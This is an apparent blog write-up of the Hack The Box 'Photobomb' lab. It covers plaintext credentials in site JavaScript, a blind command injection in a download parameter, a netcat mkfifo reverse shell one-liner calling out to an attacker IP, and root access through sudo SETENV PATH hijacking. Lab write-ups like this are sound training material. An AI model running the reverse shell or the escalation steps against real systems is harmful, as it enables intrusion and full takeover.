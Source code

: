 ```yaml
---
layout: post
title: Hack The Box - Photobomb Writeup
date: 2024-06-12 02:00:00 +0100
published: true
categories: [Hack The Box]
tags: [Hack The Box]
---
```


![photobombBadge.png](/assets/img/Photobomb/photobombBadge.png)

## Summary

Inspecting website source code revealed interesting `javascript` file `photobomb.js`. This file contained plain text credentials which granted me access to `/printer` directory. Here can be found download functionality which allows anyone to download photos from gallery. Intercepting download request with `Burp` and testing parameters revealed that `filetype` parameter is vulnerable to blind command injection. By exploiting this, I was able to obtain a reverse shell as user `wizard`. User `wizzard` can run script `/opt/cleanup.sh` with `sudo` privileges. Additionally, `wizard` has `SETENV` which gives me permission to modify certain environment variables like `PATH`.  Inspecting `cleanup.sh` contents revealed that script is running `find` binary without specified path. I was able to leverage this to hijack the path with the use of `SETENV` and trick system to execute my own malicious `find` binary, which spawned a root shell. 
 
___
## Reconnaissance

### Nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Service Enumeration

| **IP Address** | **Ports Open** |
|-------|--------|
| 10.10.11.180 | **TCP**: 22, 80 |

#### Port 80

##### Technology

```
nginx 1.18.0
```

##### Website

![80.png](/assets/img/Photobomb/80.png)

Clicking on link prompts us for credentials. 

![80.png](/assets/img/Photobomb/80.png)

I tried few default credentials but none of them were valid so I moved on. 
###### Source Code

Inspecting website source code revealed interesting `javascript` file `photobomb.js`.

![80source.png](/assets/img/Photobomb/80source.png)

###### photobomb.js

Looking at the contents of this file, I found comment with plain text credentials for acess to `/printer` directory.

![photobombJS.png](/assets/img/Photobomb/photobombJS.png)

```
pH0t0 : b0Mb!
```

##### /printer directory

With the access to `/printer` directory I was able to download photo from gallery. 

![80printerFinal.png](/assets/img/Photobomb/80printerFinal.png)


___
## Initial Foothold

### Blind Command Injection 

First I intercepted download request using `Burp` for the purpose of testing parameters. Testing `filetype` parameter for command injection throws different error than for other parameters. 

![burpTesting.png](/assets/img/Photobomb/burpTesting.png)

To test if `filetype` parameter is vulnerable to blind command injection, I tried this `URL` encoded payload:

![decoder.png](/assets/img/Photobomb/decoder.png)

![burpRequestPing.png](/assets/img/Photobomb/burpRequestPing.png)

Running `tcpdump` to see all the traffic on my virtual interface revealed incoming `icmp` request from victim host. 

```bash
sudo tcpdump -i tun0 -vv
```

![tcpdump.png](/assets/img/Photobomb/tcpdump.png)

To further exploit this, I used `URL` encoded reverse shell payload:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.38 7003 >/tmp/f
```

After submitting the payload, I obtained reverse shell as user `wizzard`.

![reverseShell.png](/assets/img/Photobomb/reverseShell.png)

### Upgrading TTY

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
ctrl + z
```
```bash
stty raw -echo && fg
```
### User.txt

![userFlag.png](/assets/img/Photobomb/userFlag.png)

## Privilege Escalation

### System Enumeration

 User `wizzard` can run script `/opt/cleanup.sh` with `sudo` privileges. Additionally user has `SETENV` which gives him permission to modify certain environment variables like `PATH`. 

```bash
sudo -l
```

![sudoL.png](/assets/img/Photobomb/sudoL.png)

By inspecting `cleanup.sh`, I discovered that `find` is not specified with full path, which can be abused to perform path hijacking. 

![cleanup.png](/assets/img/Photobomb/cleanup.png)

First I created new `find` binary in `/tmp` directory. New binary is simple bash script that will spawn shell when executed. 

![find.png](/assets/img/Photobomb/find.png)

Adding permissions to newly created `find` binary. 

```bash
chmod 777 find
```

User has `SETENV` so we can specify path to `/tmp` by adding `PATH=/tmp:$PATH` to `sudo` command. Now when I run `/opt/cleanup.sh` with `sudo` and `PATH` specified to `/tmp` directory, system will first look for `find` binary in the `/tmp` directory where it will find my malicious `find` binary and execute it with `sudo` privileges.

```bash
sudo PATH=/tmp:$PATH /opt/cleanup.sh
```

![escalation.png](/assets/img/Photobomb/escalation.png)

## Post Exploitation

### Root.txt

![rootFlag.png](/assets/img/Photobomb/rootFlag.png)
